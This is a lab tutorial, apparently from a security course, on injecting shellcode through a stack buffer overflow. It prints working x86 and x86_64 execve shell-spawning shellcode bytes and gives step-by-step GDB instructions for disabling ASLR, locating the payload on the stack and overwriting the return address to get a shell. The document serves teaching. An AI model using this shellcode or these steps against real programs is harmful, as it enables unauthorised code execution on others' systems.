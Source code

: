 # Code Injection

Now that we understand what a buffer overflow is, what can we do with it?

## Shellcode Injection

In this lab, we will learn how to call a shellcode from within a program 
using `execve`.

You can find the following shellcodes online by searching for x86 (or x86\_64) 
shellcode. If you are on a different architecture, you can find those.

**x86**

```
"\x31\xc0"              // xor    %eax,%eax
"\x50"                  // push   %eax
"\x68\x2f\x2f\x73\x68"  // push   $0x68732f2f
"\x68\x2f\x62\x69\x6e"  // push   $0x6e69622f
"\x89\xe3"              // mov    %esp,%ebx
"\x89\xc1"              // mov    %eax,%ecx
"\x89\xc2"              // mov    %eax,%edx
"\xb0\x0b"              // mov    $0xb,%al
"\xcd\x80"              // int    $0x80
"\x31\xc0"              // xor    %eax,%eax
"\x40"                  // inc    %eax
"\xcd\x80"              // int    $0x80
```

**x86\_64**

```
"\x48\x31\xd2"                                  // xor    %rdx, %rdx
"\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68"      // mov $0x68732f6e69622f2f, %rbx
"\x48\xc1\xeb\x08"                              // shr    $0x8, %rbx
"\x53"                                          // push   %rbx
"\x48\x89\xe7"                                  // mov    %rsp, %rdi
"\x50"                                          // push   %rax
"\x57"                                          // push   %rdi
"\x48\x89\xe6"                                  // mov    %rsp, %rsi
"\xb0\x3b"                                      // mov    $0x3b, %al
"\x0f\x05"                                      // syscall
```

### Example Inject

We begin this lab by repeating the steps from the previous buffer overflow 
example. If you don't understand the following instructions, you might want to 
revisit the previous example.

1. Disable ASLR.
2. Compile the program with the same flags as earlier.
3. Open the program with GDB.
4. Dissassemble the vulnerable function to find the actual size of the buffer.
5. Create a breakpoint after filling the buffer, but before returning from 
the function.
6. Run the program with the shellcode as the input. 
    -You may remember that x86 is little-endian, and might be tempted to 
    input the shellcode backwards somehow. That's not neccessary here, you 
    can input the shellcode in the order shown above.
7. GDB will break and wait for input.
8. Examine the stack using `x /32x $sp`. You should see your shellcode input in 
the stack somewhere. Take note of the address where this code is. You will 
need this address.
    - You can index with relative addresses if you want to refine your search 
    by using `x /32x ($sp + 8)` or similar.
9. Run the program again with input consisting of shellcode, spacing 
characters, and the return address.
10. If you did this correctly, you should get a shell.

### ASLR: Address Space Layout Randomization

Now that we can inject a shellcode from within GDB, we have to revisit our 
previous discussion about ASLR.
